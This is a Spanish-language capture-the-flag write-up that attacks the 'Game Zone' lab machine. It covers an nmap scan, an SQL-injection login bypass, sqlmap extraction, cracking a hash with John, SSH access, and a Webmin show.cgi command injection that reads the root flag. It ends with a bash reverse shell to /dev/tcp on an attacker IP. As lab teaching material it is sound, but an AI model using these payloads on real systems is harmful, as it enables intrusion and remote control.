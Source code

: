 # Game Zone

```bash
sudo nmap -sS -p- --min-rate 4000 --open -vvv -Pn -n 10.10.196.59 -oG allports
nmap -sC -sV -p 22,80 10.10.196.59 -oN targeted
```

![0415150332](0415150332.png)

## 80

Nos encontramos con una página con un formulario para logearnos y usaremos sql bypass para logearnos

```
Log in: 'or 1=1 -- -
Password: ' or 1=1 -- -
```

![0415160453](0415160453.png)

Con eso logramos entrar a la pagina portal.php

![0415160426](0415160426.png)

sale un mensaje de error al colocar `'`, entonces usaremos burp suite para interceptar esa consulta y aplicaremos esa en sqlmap

![0415170533](0415170533.png)

![0415180606](0415180606.png)

Guardamos el hash en un archivo para usar john de ripper para crackearlo

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

![0415180625](0415180625.png)

`videogamer124`

## SSH

```bash
ssh agent47@10.10.196.59
```

Entramos a la maquina con la contraseña encontrada y sacamos la flag user.txt

## Analizando las redes en la maquina

```bash
ss -tulpn
```

![0415180636](0415180636.png)

Tiene una servicio corriendo en el puerto 10000, entonces haremos un local port forwarding de ese puerto.

```bash
ssh -L 10000:localhost:10000 agent47@10.10.196.59
```

Encontramos un panel de webmin, ahora entramos con las credenciales que encontramos antes, pero ahora buscaremos en searchsploit si es que existe algún exploit.

Solo hay exploit con metasploit, pero podemos leer que es lo que hace para intentarlo de otra manera.

![0415190722](0415190722.png)

usamos -x para leerlo y -m para descargar el exploit

![0415190726](0415190726.png)

En la primera parte vemos que entra a /file/show.cgi/bin/ luego ingresa un numero aleatorio y de ahí ingresa un comando para ejecutar.

Al probar sería así:

![0415190706](0415190706.png)

Entonces para sacar la flag de root sería entrando a `http://localhost:10000/file/show.cgi/bin/7|cat /root/root.txt|`

## Rever Shell

primero deberemos escuchar con `nc -lvp 4444`

```cmd
http://localhost:10000/file/show.cgi/bin/7|echo "bash -i >& /dev/tcp/10.13.13.243/4444 0>&1
">/tmp/shell.sh|

http://localhost:10000/file/show.cgi/bin/7|bash /tmp/shell.sh|
```

